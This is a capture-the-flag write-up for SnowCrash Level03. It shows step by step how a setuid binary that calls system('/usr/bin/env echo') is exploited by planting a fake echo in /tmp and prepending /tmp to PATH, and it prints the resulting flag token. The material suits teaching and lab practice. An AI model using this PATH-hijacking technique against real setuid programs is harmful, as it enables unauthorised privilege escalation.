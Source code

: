 # SnowCrash

## Level03
```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
## ls -l analysis

### Permissions
The first part, -rwsr-sr-x, represents file permissions:

rws	Owner (flag03) has read (r), write (w), and execute (s - setuid) permissions (s instead of x in owner permissions means that the programs runs with the owner's privilege)

r-s	Group (level03) has read (r), no write (-), and execute (s - setgid) permissions (s instead of x in group permissions means that the programs runs with the group's privileges)

r-x	Others (everyone else) have read (r) and execute (x) permissions

### Ownership
The second part, flag03 level03, represents the file ownership

flag03 is the owner of the file, and level03 is the group associated with the file


Since the setuid bit is set (s instead of x), when a level03 user runs this binary, it executes with the privileges of flag03
Meaning we could exploit this binary to run the getflag command as flag03 which would gives us the flag.


## Execution
```
level03@SnowCrash:~$ ./level03 
Exploit me

level03@SnowCrash:~$ ./level03 argument
Exploit me
```
```
level03@SnowCrash:~$ strings level03
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me
```
## strings analysis
setresgid and setresuid -> Change the user / group IDS to flag03 user and level03 group

system -> This function executes shell commands and can be exploited

/usr/bin/env echo Exploit me -> Most likely used like this:
```c
system("/usr/bin/env echo Exploit me");
```

/usr/bin/env echo -> Search for echo in the directories listed in $PATH

We can exploit this by creating a fake echo command and adding it to the PATH

## Exploit

Let's create the fake echo command
```
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
```
We also need to make it executable
```
level03@SnowCrash:~$ chmod +x /tmp/echo
```
Let's add it to the start of $PATH to give it priority over /usr/bin/echo
```
level03@SnowCrash:~$ export PATH=/tmp:$PATH
```
We can now re-run the binary level03 in order to retrieve the flag
```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```